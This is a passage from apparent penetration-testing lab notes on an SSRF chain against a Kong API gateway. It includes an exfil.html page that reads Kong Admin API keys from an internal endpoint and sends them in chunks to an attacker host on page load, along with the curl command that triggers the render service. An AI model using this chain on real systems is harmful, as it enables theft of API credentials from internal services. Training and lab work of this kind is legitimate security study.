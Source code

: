 Excellent. Our JavaScript function sent a request to the internal endpoint, then sent that response as a URL-encoded value back to our Kali host. The message might have been truncated, but our JavaScript function worked.

Exercise
Repeat the steps above.

Extra Mile
Modify the JavaScript function to avoid data truncation by sending the data in multiple requests if the data is longer than 1024 characters.

1
(Docker Inc, 2021), https://docs.docker.com/network/bridge/#differences-between-user-defined-bridges-and-the-default-bridge ↩︎


Exfil.html (served from kali):
```
<html>
<head>
<script>
function exfiltrate() {
    fetch("http://172.16.16.2:8001/key-auths")
    .then((response) => response.text())
    .then((data) => {
	chunks = data.match( new RegExp('.{1,1024}','g'));    
	for (i=0; i < chunks.length; i++) {
            fetch("http://192.168.45.204/callback?chunks=" + i + "&data=" + encodeURIComponent(chunks[i]));
	}
    }).catch(err => {
        fetch("http://192.168.45.204/error?" + encodeURIComponent(err));
    });
}
</script>
</head>
<body onload='exfiltrate()'>
<div></div>
</body>
</html>
```
command used for exfil:
```
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.6:9000/api/render?url=http://192.168.45.204/exfil.html"}' http://apigateway:8000/files/import

```

##### Stealing Credentials from Kong Admin API
Next, we'll turn our focus to stealing credentials from the Kong Admin API with our JavaScript payload. As a reminder, when we first called the /render endpoint through the Kong API Gateway, it responded with "No API key found in request". Let's try to find that API key in Kong's Admin API.

We can find the Admin API endpoint that returns API keys in Kong's documentation.1 Let's update our JavaScript function to call /key-auths, call the Render service, and then check access.log.
